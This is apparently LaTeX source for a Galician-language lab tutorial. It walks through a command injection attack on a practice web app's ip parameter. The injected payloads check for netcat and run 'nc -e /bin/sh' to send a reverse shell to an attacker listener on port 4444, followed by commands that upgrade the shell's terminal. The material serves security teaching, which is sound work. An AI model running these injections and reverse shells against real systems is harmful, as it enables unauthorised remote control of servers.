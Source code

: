 \documentclass[a4paper]{article}
\newcommand{\reverseShellTwo}{reverse-shell-2.png}
\newcommand{\reverseShellThree}{reverse-shell-3.png}
\newcommand{\reverseShellFour}{reverse-shell-4.png}
\begin{document}
        \vspace{0.2cm}
        \subsection{Reverse shell}
        \vspace{0.2cm}
        \begin{lstlisting}[language=Bash, caption=Comprobar se existe o comando {\it{netcat (nc)}} no host do servidor Web, linewidth=18.7cm]
http://192.168.120.100/commandexec/example1.php?ip=127.0.0.1;whereis nc\end{lstlisting}

        \begin{lstlisting}[language=Bash, caption=No host cliente (atacante): Abrir no equipo cliente o porto TCP 4444 a través do comando {\it{netcat (nc)}} para esperar unha reverse shell, linewidth=18.7cm]
$ nc -lnvp 4444
listening on [any] 4444 ...\end{lstlisting}

        \begin{lstlisting}[language=Bash, caption=Executar a través da URL un comando netcat que se comunique co host cliente (atacante) enviándolle a reverse shell, linewidth=18.7cm]
http://192.168.120.100/commandexec/example1.php?ip=127.0.0.1;nc -e /bin/sh 192.168.120.101 4444\end{lstlisting}

        \begin{lstlisting}[language=Bash, caption=No host cliente (atacante): Facer un tratamento da tty na reverse shell obtida, linewidth=18.7cm]
$ 
script /dev/null -c bash
Ctrl+Z
stty raw -echo;fg
reset
xterm
export TERM=xterm
export SHELL=bash\end{lstlisting}

        \texttt{[image: \\reverseShellTwo]}\par
        \texttt{[image: \\reverseShellThree]}\par

\vspace{0.8cm}
        \begin{lstlisting}[language=Bash, caption=No host cliente (atacante): Abrir unha nova consola e averiguar o tamaño (filas e columnas) da tty, linewidth=18.7cm]
$ stty -a\end{lstlisting}
        \texttt{[image: \\reverseShellFour]}\par\
\end{document}

